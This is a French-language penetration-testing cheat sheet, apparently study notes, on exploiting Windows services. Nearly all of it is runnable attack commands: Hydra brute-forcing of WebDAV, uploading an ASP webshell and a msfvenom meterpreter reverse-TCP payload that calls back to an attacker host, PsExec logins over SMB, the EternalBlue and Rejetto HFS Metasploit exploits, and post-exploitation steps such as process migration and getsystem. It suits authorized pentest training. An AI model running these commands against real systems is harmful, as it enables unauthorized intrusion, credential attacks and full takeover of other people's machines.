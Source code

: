 # 🪟 Vulnérabilités Windows

[← Retour à la table des matières](../README.md)

## 📋 Table des Matières
- [Types d'Attaques](#types-dattaques-windows)
- [Services Windows](#exploitation-de-services-windows)
  - [IIS WebDAV](#iis-webdav)
  - [SMB avec PsExec](#smb-avec-psexec)
  - [MS17-010 EternalBlue](#ms17-010-eternalblue)
- [Exemples d'Exploitation](#exemple-dexploitation-hfs)

## Types d'attaques Windows

### 🎯 Catégories principales
- **Information Disclosure** : Fuite d'informations sensibles
- **Buffer Overflow** : Débordement de tampon
- **Remote Code Execution** : Exécution de code à distance
- **Privilege Escalation** : Élévation de privilèges
- **Denial of Service** : Déni de service

## Exploitation de services Windows

### IIS WebDAV
```bash
# Scan initial
nmap -sV -sC targetIP
nmap -sV -p 80 --script=http-enum targetIP

# Bruteforce WebDAV si authentification requise → [📖 Guide Hydra](../06-tools/hydra.md)
hydra -L /usr/share/wordlists/metasploit/common_users.txt -P /usr/share/wordlists/metasploit/common_passwords.txt targetIP http-get /webdav/

# Test des capacités WebDAV
davtest -auth user:password -url http://targetIP/webdav

# Upload de webshell
cadaver http://targetIP/webdav
# Dans cadaver :
put /usr/share/webshells/asp/webshell.asp
```

### Meterpreter via WebDAV → [📖 Guide MSFVenom](../06-tools/msfvenom.md)
```bash
# Génération du payload
msfvenom -p windows/meterpreter/reverse_tcp LHOST=KALI_IP LPORT=1234 -f asp > shell.asp

# Upload via cadaver
cadaver http://targetIP/webdav
put /path/to/shell.asp

# Handler Metasploit
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST KALI_IP
set LPORT 1234
run
```

### Module MSF automatique WebDAV
```bash
use exploit/windows/iis/iis_webdav_upload_asp
set HTTPUSERNAME username
set HTTPPASSWORD password
set RHOSTS targetIP
set PATH webdav/metasploit.asp
run
```

## SMB avec PsExec
```bash
# Nécessite des credentials légitimes (user/password ou hash)

# Test de login SMB
use auxiliary/scanner/smb/smb_login
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run

# PsExec avec Impacket
psexec.py administrator@targetIP cmd.exe

# PsExec avec Metasploit
use exploit/windows/smb/psexec
set RHOSTS targetIP
set SMBUser administrator
set SMBPass password
run
```

## MS17-010 EternalBlue

### Détection
```bash
# Nmap script
nmap -sV -p 445 --script=smb-vuln-ms17-010 targetIP

# Metasploit scanner
use auxiliary/scanner/smb/smb_ms17_010
set RHOSTS targetIP
run
```

### Exploitation
```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS targetIP
run
```

## Exemple d'exploitation HFS

### Recherche d'exploits → [📖 Guide Searchsploit](../06-tools/searchsploit.md)
```bash
# Recherche avec searchsploit
searchsploit hfs

# Résultats typiques :
# HFS (HTTP File Server) 2.3.x - Remote Command Execution
# Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)
```

### Exploitation avec Metasploit
```bash
use exploit/windows/http/rejetto_hfs_exec
set RHOSTS targetIP
run
# Obtention d'un meterpreter
```

### Post-exploitation
```bash
# Migration vers explorer.exe
ps -S explorer.exe
migrate PID_FOUND

# Tentative d'élévation de privilèges
getsystem

# Si getsystem échoue, vérifier les groupes
shell
net localgroup administrators
```